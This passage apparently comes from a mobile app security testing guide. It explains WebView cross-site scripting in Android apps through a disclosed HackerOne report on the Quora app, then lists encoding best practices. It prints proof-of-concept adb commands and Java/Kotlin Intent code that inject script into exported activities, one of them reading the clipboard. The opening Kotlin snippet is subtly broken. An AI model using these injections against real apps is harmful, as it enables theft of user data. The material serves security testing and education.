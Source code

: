 ```kotlin
    fun shouldOverrideUrlLoading(view: WebView, url: String): Boolean {
        if (url.substring(0, 6).equals("yourscheme:", ignoreCase = true)) {
            // parse the URL object and execute functions
        }
    }
```

Sergey Bobrov was able to take advantage of this in the following
[HackerOne report](https://hackerone.com/reports/189793 "[Android] XSS via start ContentActivity").
Any input to the HTML parameter would be trusted in Quora's
ActionBarContentActivity. Payloads were successful using adb, clipboard data via
ModalContentActivity, and Intents from 3rd party applications.

- ADB

  ```bash
  $ adb shell
  $ am start -n com.quora.android/com.quora.android.ActionBarContentActivity \
  -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  ```

- Clipboard Data

  ```bash
  $ am start -n com.quora.android/com.quora.android.ModalContentActivity  \
  -e url 'http://test/test' -e html \
  '<script>alert(QuoraAndroid.getClipboardData());</script>'
  ```

- 3rd party Intent in Java or Kotlin:

  ```java
  Intent i = new Intent();
  i.setComponent(new ComponentName("com.quora.android",
  "com.quora.android.ActionBarContentActivity"));
  i.putExtra("url","http://test/test");
  i.putExtra("html","XSS PoC <script>alert(123)</script>");
  view.getContext().startActivity(i);
  ```

  ```kotlin
  val i = Intent()
  i.component = ComponentName("com.quora.android",
  "com.quora.android.ActionBarContentActivity")
  i.putExtra("url", "http://test/test")
  i.putExtra("html", "XSS PoC <script>alert(123)</script>")
  view.context.startActivity(i)
  ```

If a WebView is used to display a remote website, the burden of escaping HTML
shifts to the server side. If an XSS flaw exists on the web server, this can be
used to execute script in the context of the WebView. As such, it is important
to perform static analysis of the web application source code.

Verify that the following best practices have been followed:

- No untrusted data is rendered in HTML, JavaScript or other interpreted
  contexts unless it is absolutely necessary.
- Appropriate encoding is applied to escape characters, such as HTML entity
  encoding. Note: escaping rules become complicated when HTML is nested within
  other code, for example, rendering a URL located inside a JavaScript block.
